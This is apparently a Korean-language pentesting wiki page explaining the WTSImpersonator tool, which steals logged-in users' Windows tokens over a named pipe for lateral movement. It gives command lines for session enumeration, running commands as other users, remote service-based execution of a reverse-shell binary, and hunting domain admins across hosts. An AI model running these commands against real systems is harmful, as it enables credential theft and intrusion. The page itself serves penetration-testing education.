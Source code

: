 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator** 도구는 **"\\pipe\LSM_API_service"** RPC Named pipe를 이용하여 로그인한 사용자를 은밀하게 열거하고 그들의 토큰을 탈취하여 전통적인 Token Impersonation 기법을 우회합니다. 이 접근 방식은 네트워크 내에서 원활한 측면 이동을 촉진합니다. 이 기술의 혁신은 **Omri Baso**에게 기인하며, 그의 작업은 [GitHub](https://github.com/OmriBaso/WTSImpersonator)에서 확인할 수 있습니다.

### Core Functionality

이 도구는 API 호출의 일련을 통해 작동합니다:
```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### 주요 모듈 및 사용법

- **사용자 열거**: 이 도구를 사용하여 로컬 및 원격 사용자 열거가 가능합니다. 각 시나리오에 대한 명령을 사용합니다:

- 로컬에서:
```bash
.\WTSImpersonator.exe -m enum
```
- 원격으로, IP 주소 또는 호스트 이름을 지정하여:
```bash
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **명령 실행**: `exec` 및 `exec-remote` 모듈은 작동하기 위해 **서비스** 컨텍스트가 필요합니다. 로컬 실행은 WTSImpersonator 실행 파일과 명령만 필요합니다:

- 로컬 명령 실행 예:
```bash
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe를 사용하여 서비스 컨텍스트를 얻을 수 있습니다:
```bash
.\PsExec64.exe -accepteula -s cmd.exe
```

- **원격 명령 실행**: PsExec.exe와 유사하게 원격으로 서비스를 생성하고 설치하여 적절한 권한으로 실행할 수 있게 합니다.

- 원격 실행 예:
```bash
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **사용자 헌팅 모듈**: 여러 시스템에서 특정 사용자를 대상으로 하여 그들의 자격 증명으로 코드를 실행합니다. 이는 여러 시스템에서 로컬 관리자 권한을 가진 도메인 관리자를 타겟팅하는 데 특히 유용합니다.
- 사용 예:
```bash
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
